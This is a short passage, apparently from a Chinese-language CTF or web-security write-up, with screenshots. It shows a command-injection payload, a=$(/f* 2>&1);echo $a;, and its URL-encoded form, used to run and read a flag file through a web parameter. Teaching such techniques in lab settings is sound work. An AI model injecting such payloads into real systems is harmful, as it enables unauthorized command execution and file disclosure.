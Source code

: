 ![img](assets/33.png)

如果你的用户组有**执行文件的权限**，你可以直接/f*获得文件内容：

```
a=$(/f* 2>&1);echo $a;  #a%3D%24(%2Ff*%202%3E%261)%3Becho%20%24a%3B
```

![img](assets/34.png)
